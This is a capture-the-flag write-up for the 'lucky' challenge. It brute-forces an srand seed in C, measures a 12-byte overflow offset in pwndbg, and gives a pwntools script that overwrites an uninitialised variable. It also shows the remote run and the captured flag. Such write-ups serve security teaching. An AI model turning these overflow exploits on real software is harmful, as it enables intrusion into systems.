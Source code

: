 ## Question

*Author: nhwn
*Feeling lucky? I have just the challenge for you :D
*SNI: lucky

## Solution

I just wrote a small C program to dertermine the value we needed to overwrite the seed with.

```c
int main() {

    setvbuf(stdout, NULL, _IONBF, 0);

    int i = 0;
 
    while (1==1) {

    srand(i);
    int key0 = rand() == 306291429;
    int key1 = rand() == 442612432;
    int key2 = rand() == 110107425;

    if (key0 && key1 && key2) {
        printf("seed = %i",i);
        exit(0);
    } 
    else {
     i = i +1;
    }
   }
}
```

Running,  tells us the seed must equal ```5649426```

```
$ gcc -o luck luck.c
$ ./luck
seed = 5649426

```

We will use this value to overwrite the local variable returned from seed into (e\|r)ax.

```
   0x00005555555552e4 <+53>:	call   0x5555555551f1 <seed>
   0x00005555555552e9 <+58>:	mov    edi,eax
   0x00005555555552eb <+60>:	call   0x555555555060 <srand@plt>
   0x00005555555552f0 <+65>:	call   0x5555555550a0 <rand@plt>
```

Next, I set a breakpoint at ```0x5555555552e9``` to determine how many bytes of padding are needed to overwrite ```eax```.


```
pwndbg> break *0x00005555555552e9
Breakpoint 1 at 0x5555555552e9
pwndbg> cyclic 25
aaaabaaacaaadaaaeaaafaaag
pwndbg> r
Starting program: /root/workspace/tamu-ctf/lucky/lucky 
Enter your name: aaaabaaacaaadaaaeaaafaaag
pwndbg> x/8 $rax
0x616164:	Cannot access memory at address 0x616164
```

We see that it takes 12 bytes. So the solution now is pretty straightforward, pad 12 bytes, then overflow the local variable in seed() with 5649426.

```python
from pwn import *
import time

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("tamuctf.com", 443, ssl=True, sni="lucky")
    else:
        return process(e.path)

p = start()

pad = b'A'*12
seed = p64(5649426)

p.sendline(pad+seed)
p.interactive()
```

Running this gives our flag

```
{6:15}~/workspace/tamu-ctf/lucky ➭ python3 pwn-lucky.py BIN=./lucky REMOTE
[*] '/root/workspace/tamu-ctf/lucky/lucky'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/root/workspace/tamu-ctf/lucky/lucky'
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode
Enter your name: 
Welcome, AAAAAAAAAAAA\x12V
If you're super lucky, you might get a flag! GLHF :D
Nice work! Here's the flag: gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
```